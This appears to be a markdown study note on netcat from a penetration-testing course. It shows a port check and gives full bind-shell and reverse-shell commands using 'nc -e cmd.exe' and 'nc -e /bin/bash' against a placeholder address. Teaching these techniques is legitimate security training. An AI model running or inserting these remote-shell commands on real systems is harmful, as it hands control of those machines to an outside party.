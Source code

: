```yaml
---
title: Practical Tools
---
```


## Netcat

```bash
# check if a port is open
nc-n -v 10.11.0.22 110
```

## REmote Administration With Netcat

Consider this scenario, 2 people A and B each has a computer. A has a public ip address and is directly connected to the internet (like a server), B is not (like a client), has a internal ip address.

![ip](./4.PT.assets/ip.png)

Suppose A has a Windows Machine and B has a linux machine (demonstration only, command exactly the same).

Suppose A's public ip address is `<IP-Addr>`

the `-e` option of netcat: program to exec after connect [dangerous!!]

### Netcat Bind Shell Scenario

A sends shell to B and let B control A's computer.

```powershell
# A
nc -nlvp 4444 -e cmd.exe				# Listening on port 4444, run cmd.exe after connection
```

```bash
# B
nc -nv <IP-Addr> 4444					# B then gets the shell/cmd of A
```

### Reverse Shell Scenario

It's called reverse because B is sharing its shell to A this time. 

```powershell
# A
nc -nlvp 4444							# Listening on port 4444
```

```bash
# B
nc -nv <IP-Addr> 4444 -e /bin/bash		# send bash shell to ip address
```




















